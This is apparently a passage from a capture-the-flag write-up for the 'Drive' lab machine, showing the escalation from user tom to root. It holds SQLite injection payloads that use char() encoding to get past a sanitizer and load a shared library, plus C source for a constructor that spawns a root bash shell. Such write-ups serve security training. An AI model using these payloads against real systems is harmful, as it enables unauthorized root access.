 - get sql command: `/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlit3 -line UPDATE accounts_customuser SET is_active=1 WHERE username="**%s**";`
  - **sqlite command injection**, [PayloadsAllTheThings/SQL Injection/SQLite Injection.md at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/SQLite Injection.md#remote-command-execution-using-sqlite-command---load_extension)
  - **shared library exploit**
  - char(xx,xx,xx) -> **bypass** sanitize_string()
  - **payload**: `%s -> root" UNION SELECT 1,load_extension('./a');-- -` or `%s -> root";load_extension('./a');-- -` -> `root";+load_extension(char(46,47,97))--` or `root"+UNION+SELECT+1,load_extension(char(46,47,97))--`

- `gcc -fPIC -shared -o a.so a.c`

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject() {
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
}
```

### tom -> root

- ./doodleGrive-cli -> choose 5 -> input payload -> export PATH -> root shell

![image-20231124170828278](./Drive.assets/image-20231124170828278.png)